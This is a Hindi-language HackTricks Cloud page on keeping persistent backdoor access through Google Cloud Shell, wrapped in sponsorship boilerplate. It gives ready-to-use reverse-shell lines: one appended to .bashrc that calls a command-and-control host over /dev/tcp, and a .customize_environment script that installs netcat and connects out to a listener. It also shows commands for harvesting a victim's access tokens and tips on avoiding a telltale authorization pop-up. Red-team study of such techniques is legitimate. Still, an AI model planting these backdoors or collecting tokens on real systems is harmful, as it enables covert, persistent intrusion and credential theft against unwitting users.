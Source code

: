 # GCP - क्लाउड शेल पर्सिस्टेंस

<details>

<summary><strong>htARTE (हैकट्रिक्स AWS रेड टीम एक्सपर्ट) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></summary>

HackTricks को समर्थन देने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग प्राप्त करें**](https://peass.creator-spring.com)
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) का संग्रह
* 💬 [**Discord समूह में शामिल हों**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या **Twitter** पर 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) को **फॉलो करें**.
* **HackTricks में PRs सबमिट करके अपनी हैकिंग ट्रिक्स शेयर करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
*
* &#x20;github repos.

</details>

## क्लाउड शेल

अधिक जानकारी के लिए देखें:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### पर्सिस्टेंट बैकडोर

[**Google क्लाउड शेल**](https://cloud.google.com/shell/) आपको बिना किसी जुड़े हुए खर्च के अपने ब्राउज़र से सीधे आपके क्लाउड संसाधनों तक कमांड-लाइन एक्सेस प्रदान करता है।

आप **वेब कंसोल** से या **`gcloud cloud-shell ssh`** चलाकर Google के क्लाउड शेल तक पहुँच सकते हैं।

इस कंसोल में हमलावरों के लिए कुछ दिलचस्प क्षमताएं हैं:

1. **Google क्लाउड तक पहुँच वाले किसी भी Google उपयोगकर्ता** के पास पूरी तरह से प्रमाणित क्लाउड शेल इंस्टेंस तक पहुँच होती है (सेवा खाते भी, यहाँ तक कि वे संगठन के मालिक हों)।
2. उक्त इंस्टेंस अपनी होम डायरेक्टरी को कम से कम 120 दिनों तक बनाए रखेगा यदि कोई गतिविधि नहीं होती है।
3. संगठन के पास उस इंस्टेंस की गतिविधि की निगरानी करने की **कोई क्षमता नहीं है**।

इसका मूल रूप से यह मतलब है कि एक हमलावर उपयोगकर्ता की होम डायरेक्टरी में एक बैकडोर डाल सकता है और जब तक उपयोगकर्ता हर 120 दिनों में कम से कम एक बार GC शेल से जुड़ता है, बैकडोर जीवित रहेगा और हमलावर को हर बार जब यह चलाया जाता है तो एक शेल मिलेगा, बस यह करके:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

घर के फोल्डर में एक और फाइल है जिसका नाम **`.customize_environment`** है, जो अगर मौजूद है, तो वह **हर बार निष्पादित की जाएगी** जब भी उपयोगकर्ता **cloud shell** तक पहुँचता है (पिछली तकनीक की तरह)। बस पिछले बैकडोर को डालें या निम्नलिखित जैसा एक बैकडोर डालें ताकि जब तक उपयोगकर्ता "अक्सर" cloud shell का उपयोग करता है, तब तक पर्सिस्टेंस बनाए रखें:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
ध्यान दें कि **Cloud Shell में पहली बार GCP क्रिया को अंजाम दिया जाता है जिसके लिए प्रमाणीकरण की आवश्यकता होती है**, तो यह उपयोगकर्ता के ब्राउज़र में एक प्राधिकरण विंडो **पॉप अप** करता है जिसे कमांड चलाने से पहले स्वीकार करना पड़ता है। यदि अप्रत्याशित पॉप-अप आता है, तो लक्ष्य संदिग्ध हो सकता है और पर्सिस्टेंस विधि को नष्ट कर सकता है।

यह पॉप-अप है जो `gcloud projects list` को cloud shell से निष्पादित करने पर आता है (हमलावर के रूप में) जिसे ब्राउज़र के उपयोगकर्ता सत्र में देखा जा सकता है।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

हालांकि, अगर उपयोगकर्ता ने सक्रिय रूप से cloudshell का उपयोग किया है, तो पॉप-अप प्रदर्शित नहीं होगा और आप **उपयोगकर्ता के टोकन इकट्ठा कर सकते हैं**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH कनेक्शन कैसे स्थापित किया जाता है

मूल रूप से, ये 3 API कॉल्स का उपयोग किया जाता है:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (आपको अपनी स्थानीय रूप से बनाई गई पब्लिक की जोड़ने की अनुमति देगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (आपको इंस्टेंस शुरू करने की अनुमति देगा)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (आपको गूगल क्लाउड शेल का आईपी बताएगा)

लेकिन आप अधिक जानकारी [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) पर पा सकते हैं।

## संदर्भ

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert) के साथ शून्य से नायक तक AWS हैकिंग सीखें</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप चाहते हैं कि आपकी **कंपनी का विज्ञापन HackTricks में दिखाई दे** या **HackTricks को PDF में डाउनलोड करें** तो [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family) की खोज करें, हमारा विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह
* 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) में **शामिल हों** या [**telegram समूह**](https://t.me/peass) या **Twitter** पर मुझे 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm) **का पालन करें**।
* **HackTricks** में PRs सबमिट करके अपनी हैकिंग ट्रिक्स साझा करें [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)
*
*
* &#x20;github repos.

</details>
